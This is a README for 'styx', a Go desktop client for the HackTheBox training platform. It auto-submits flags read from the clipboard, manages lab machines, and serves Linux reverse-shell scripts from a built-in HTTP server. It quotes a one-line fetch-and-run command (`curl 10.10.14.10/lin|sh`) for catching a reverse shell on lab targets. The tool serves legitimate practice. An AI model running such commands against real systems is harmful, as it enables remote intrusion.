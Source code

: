 ![styx river](/styx.png)
# styx v0.0.1
 Styx is an cross-platform GUI interface for HackTheBox made in GoLang. Styx's UI is made with the [giu](https://github.com/AllenDang/giu) library.  
  
 ## Purpose
Styx aims to streamline the process of engaging with seasonal machines on HTB. Its primary focus is to avoid using the HTB web interface, enabling users to execute time-sensitive actions swiftly and efficiently. While Styx prioritizes functionality and speed over aesthetics, it serves as an effective and quicker alternative for interacting with HTB.  
 ## Features
 #### **Automatic Flag Submission** 
 Styx will continuously check the machine clipboard for any user or root flags, and will submit them automatically through HackTheBox's APIs. 
 #### **Built-in Reverse Shell Generator** 
 Styx contains a simple HTTP server that listens on port :61337 and returns pre-made reverse-shell scripts for Linux. Allowing you to quickly get a reverse shell with a simple  `curl 10.10.14.10/lin|sh` 
 #### **Machine Management** 
 Styx allows the user to start and stop machines on their own behalf. Flag submission is handled by the **auto flag submission** feature. 

## Usage
1. `sudo apt install -y libxcursor-dev libxrandr-dev libxinerama-dev libxi-dev libxxf86vm-dev`
2. `go install github.com/c3l3si4n/styx@HEAD`
3. Create an app token on your HTB profile (any duration you want)
4. Set the `HTB_TOKEN` environment variable with the value containing your generated token
5. Run styx

